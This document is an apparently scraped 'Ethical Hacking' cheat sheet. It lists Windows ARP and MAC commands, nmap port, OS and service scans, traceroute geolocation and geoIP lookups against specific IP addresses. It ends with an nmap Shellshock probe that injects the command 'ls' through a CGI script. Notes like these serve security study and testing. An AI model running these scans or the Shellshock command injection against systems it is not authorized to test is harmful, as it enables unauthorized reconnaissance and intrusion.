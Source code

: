 # Ethical Hacking

## Commands

### Windows

```bash
getmac  // get info of Ethernet card
arp -a // Mac to IP
arp -g // same as arp -a
arp -s 153.53.82.33 00-aa-00-62-c9-09 // adds static arp entry
arp --d ip // to delete static ip entry
```

## Footprinting Process

### Nmap and Traceroute

```bash
nmap -v -p 1-2000 -O -sV 178.128.203.1
nmap --traceroute --script traceroute-geolocation 178.128.203.1 -d
```

### GeoIp

```bash
geoiplookup 85.158.39.204
```

### Vulnerabilities

[Nmap](https://nmap.org/nsedoc/scripts/http-shellshock.html)

```bash
nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/blabla.sh,cmd=ls 192.168.122.17
# sV = service versions
```